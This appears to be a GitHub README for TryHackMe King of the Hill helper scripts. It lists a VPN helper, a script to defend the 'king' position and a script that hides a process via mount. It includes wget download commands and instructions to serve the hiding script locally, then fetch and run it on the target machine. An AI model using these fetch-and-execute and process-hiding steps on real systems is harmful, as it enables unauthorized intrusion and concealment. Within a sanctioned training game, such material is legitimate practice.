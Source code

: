 >בס״ד
<div align="center">

![image](https://user-images.githubusercontent.com/51442719/172729066-1293d382-4a31-4f03-8c23-ab0ea5f611a0.png)

# [`Anlominus`](https://github.com/Anlominus) 🤴 [King of the Hill](https://tryhackme.com/games/koth) `BETA`
  
# Keeps updated on: [`Anlominus`]()/[`KoTH`](https://github.com/Anlominus/KoTH)
  
---


</div>

---

# 📜 KoTH Menu ~ To Do
- 📜 Menu
### 1️⃣ ~ [`KoTH`](./KoTH) ~> TryHackMe VPN
> Simple helper script for VPN, VM's, etc
```shell
wget https://raw.githubusercontent.com/Anlominus/TryHackMe/main/King%20of%20the%20Hill/KoTH/KoTH ; chmod +x KoTH
```

---

### 2️⃣ ~ [`KoTH-Protection`](./KoTH-Protection) ~> Protecting Rank in King of The Hill
> A script to protect your king
```shell
wget https://github.com/Anlominus/TryHackMe/blob/main/King%20of%20the%20Hill/KoTH/KoTH-Protection ; chmod +x KoTH-Protection
```

---

### 3️⃣ ~ [`KoTh-Hidding`](./KoTh-Hidding) ~> A simple script to hide a process with mount
```shell
wget https://github.com/Anlominus/TryHackMe/blob/main/King%20of%20the%20Hill/KoTH/KoTh-Hidding; && chmod +x KoTh-Hidding
```
> - Start local server <br>
>   - `python3 -m http.server 80` <br>
> - in the Target Machine <br>
>   - `wget http://yourvpnip/KoTh-Hidding && chmod +x KoTh-Hidding && ./KoTh-Hidding`
